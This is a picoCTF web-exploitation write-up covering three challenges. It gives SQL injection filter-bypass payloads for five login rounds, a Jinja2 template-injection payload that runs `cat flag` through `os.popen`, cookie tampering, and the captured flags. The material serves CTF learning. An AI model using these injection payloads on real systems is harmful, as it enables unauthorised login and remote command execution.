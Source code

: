 # Web Exploitation

## 1. Web Gauntlet

The challenge is to beat the filters and perform SQLi

Challenge Endpoints: `sign-in page` and `filter page` (dynamically generated when clicked on Launch Instance)

### My Solution

**Flag:**`picoCTF{y0u_m4d3_1t_79a0ddc6}`

**Round 1:**
- The filters
    - `or`
- On testing, the query expected to run is:
```sql
SELECT * FROM users WHERE username='admin' AND password='asdf'
```
- SQLi payload instead of Username: `admin' --`

**Round 2:**
- The filters
    - `or`
    - `and`
    - `like`
    - `=`
    - `--`
- SQLi payload instead of Username: `admin' /*`

**Round 3:**
- The filters
    - `or`
    - `and`
    - `like`
    - `=`
    - `--`
    - `>`
    - `<`
- SQLi payload instead of Username: `admin';`

**Round 4:**
- The filters
    - `or`
    - `and`
    - `like`
    - `=`
    - `--`
    - `>`
    - `<`
    - `admin`
- SQLi payload instead of Username: `a'||'dmin';`

**Round 5:**
- The filters
    - `or`
    - `and`
    - `like`
    - `=`
    - `--`
    - `>`
    - `<`
    - `admin`
    - `union`

- SQLi payload instead of Username: `a'||'dmin';`

Completing all the rounds gives us the flag 

## 2. SSTI1

The challenge is to use SSTI (Server Side Template Injection) to get the flag

Challenge Endpoint: `an announcement website` (generated dynamically when Launch Instance is clicked)

### My Solution

**Flag:**`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}`

**Steps:**

- I opened up the given challenge endpoint in burp suite and edited the request being sent to send different payloads using the `Intruder` tab

![intruder payloads](./SSTI1/intruder.png "intruder payloads")

- Then I checked the responses for these payloads and for the payload `{{7*7}}` we see that content being sent is `49` which means we have found our vulnurability

![correct payload](./SSTI1/correct-payload.png "correct payload")

- Then I checked the response for a new payload `{{7*'7'}}` and found it to be `7777777` this confirms that the website is using `jinja2 (python)`

- Then I searched for jinja2 templates on the web to get an idea of what I could do with it

- Finally, I used the payload `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}` to get the flag

![flag](./SSTI1/flag.png "flag")

### References
- [ssti payloads](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-server-side-template-injection-ssti)
- [jinja2 templates](https://jinja.palletsprojects.com/en/stable/templates/)

## 3. Cookies

The challenge is to figure out the best cookie

Challenge Endpoint: [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)

### My Solution

**Flag:**`picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`

**Steps:**

- I opened up the challenge endpoint and with it the chrome dev tools `Application` tab and we see a cookie named `name` in the cookies section of the application tab

- The value of this cookie is set to `-1` by default

![cookie -1](./cookies/minus1.png "cookie -1")

- Next I tried to enter `snickerdoodle` as my search prompt and got to a new page and the value of `name` changed to `0`

![cookie 0](./cookies/0.png "cookie 0")

- Next I tried to change the `name` cookie to `1` and reload which took me to the `chocolate chip cookie` page

- In following steps I incrimented the value of `name` cookie to find the special cookie and finally found it at the value `18` 

![cookie 18](./cookies/18.png "cookie 18")
